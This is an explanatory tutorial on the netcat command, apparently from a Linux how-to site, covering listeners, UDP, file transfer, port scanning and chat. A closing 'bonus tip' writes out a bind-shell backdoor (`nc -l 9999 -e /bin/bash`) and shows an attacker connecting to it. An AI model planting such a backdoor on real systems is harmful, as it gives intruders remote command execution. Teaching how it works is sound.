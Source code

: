 # Netcat (nc) command examples
Here’s the syntax for the nc command:

``` bash
nc [options] [hostname] [port]
```

The syntax can vary depending on the application, but for most uses, your commands will follow this basic pattern.

## 1. Create a Connection Using TCP with netcat command
As I mentioned earlier, the core functionality of netcat is joining two machines together. You can set up a connection using TCP to connect two separate machines, you can also emulate that connection using the terminal.

The Listening Machine:

``` bash
nc -l 8080
```
This command opens port 8080 and tells the machine to begin listening on this port.

In order to establish a connection, you will use another terminal and enter the following.

The Client Machine:

``` bash
nc 127.0.0.1 8080
```
You can also use ‘localhost’ in place of the IP, or use the IP of your second PC here if you are making a remote connection.

That’s it, you have opened a TCP port and established a connection between two systems.

### Quick Intro to TCP vs UDP

Why do we use TCP by default? TCP is an older technology than UDP and they operate at different levels of the OSI model. I will give a quick overview of the differences between them and describe some situations where you may choose one over the other.

TCP has strong error-correction capabilities. What does that mean? Basically, this means that while data packets are in transit from system to system, there are continuous tests being performed. These tests make sure that the information from System A is copied accurately to System B. This is a very simplified version of what happens as information travels across networks (the internet).

There are many protocols used in internet communication, though, not just TCP. UDP has different rules than TCP. Neither is necessarily “better” but they can each excel at performing different tasks.

Why would we use UDP over TCP or vice versa? It depends on the application. TCP is slower, but more reliable for transferring data accurately.

UDP can be chosen in situations where speed is more important than reliability transmitting information. One example of this is streaming data, like video. Video can be transferred more quickly over UDP, and even if there are errors in the transmission, they are less likely to impact the user experience.

## 2. Create a connection using UDP with nc command
The steps for making a UDP connection are virtually identical to the ones we’ve already followed. You will add an option flag to specify that the type of port you want to open is UDP, not the default TCP.

``` bash
nc -l -u 999
```

It’s that simple. That’s all you need to do to open UDP port ‘999’.

You might wonder if you can use TCP and UDP with the same port number. You can, because they are separate protocols.

## 3. Use nc command to transfer files between remote systems
There are other methods for transferring files from one system to another. You can also use the netcat command for this purpose.

For this example, I created a demo that illustrates a remote file transfer from my Linux machine to my MacBook Pro.

### Set up the Linux PC to Receive

``` bash
nc -l 9999 > fromMac.file
```

You begin listening on the receiving machine on TCP port 9999. The ‘>‘ tells the machine you are expecting a file to be transferred. The name that follows is the local name for the file.

### Set up the Mac PC to Send
nc 172.20.1.168 9999 < toLinux.file
The IP address here belongs to the Linux machine. You flip the symbol to ‘<‘ and the file ‘toLinux.file’ will be copied onto the remote machine as ‘fromMac.file’.

## 4. Use nc command for port scanning
There might be more efficient options for port scanning, but it can be done with netcat. Since netcat comes installed by default on most operating systems, it’s nice to know how to do this if you need to do some quick troubleshooting. You’ll use the ‘-n’ and display verbose output.

``` bash
nc -v -n 127.0.0.1 1-100
```

This attempts to make a connection to ports between 1-100. Port 80 is HTTP, as I’m sure many of you know. This port is normally open on machines because it is used for connecting to the internet.

When I use this command, I’m actually attempting to connect to all of the ports between 1-100. It successfully connects to port 80, but generates an error message from Apache. I end up with some HTML output on the terminal because my computer sees it as a bad page request.

``` bash
[...]
nc: connect to 127.0.0.1 port 77 (tcp) failed: Connection refused
nc: connect to 127.0.0.1 port 78 (tcp) failed: Connection refused
nc: connect to 127.0.0.1 port 79 (tcp) failed: Connection refused
Connection to 127.0.0.1 80 port [tcp/*] succeeded!

HTTP/1.1 400 Bad Request
Date: Fri, 20 Dec 2019 15:08:29 GMT
Server: Apache/2.4.38 (Ubuntu)
Content-Length: 310
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Ubuntu) Server at pop-os.localdomain Port 80</address>
</body></html>
```

### Zero I/O Mode
To avoid this, you can use the -z flag, which stands for zero input/output. This is the built-in port-scanning mode for netcat. I still get the same language, but it does not actually make the connection to port 80 generating the bad request error. Instead it continues through all scanned ports.

## 5. Chat with Netcat
This is a more fun way to use netcat. When you establish a TCP connection like above, you can actually “chat” from machine to machine. It’s less novel in an era where texting and chat applications are ubiquitous but this would have totally blown someone’s mind back in 1996.

### Bonus Tip: Create a backdoor with nc command
I will show this for demonstration purposes only. Please be aware that unauthorized use of this command could be considered criminal activity in your locale.

In fact, this command no longer does anything with ‘nc’. There are ways to do it, but you will have to find them somewhere else. Once again, this is intended only to show the capability.

The -e flag makes something executable. A common way for malicious actors to gain access is to create such a backdoor on an open port and use that to execute scripts or otherwise manipulate the file system.

So if the attacker somehow gained the access to the “victim” machine, he/she can create a backdoor like this:

``` bash
nc -l 9999 -e /bin/bash
```

Now the attackers can use this backdoor to access into the system remotely and execute commands. So, from attacker’s system:

``` bash
nc 192.168.1.10 9999
ls
Desktop
Documents
Downloads
Music 
Pictures
Public
Templates
Videos
firefox linuxhandbook.com
```

This enables the attacker to access your computer remotely from the command line. Once connected, I can run bash commands similarly to how I could if I was using the computer directly.

I’m sure you can imagine how someone without the best of intentions could abuse this power. This makes it very important to monitor port activity on any network.

I hope you enjoyed this brief introduction to the netcat command. As always, let us know what you think in the comment section.
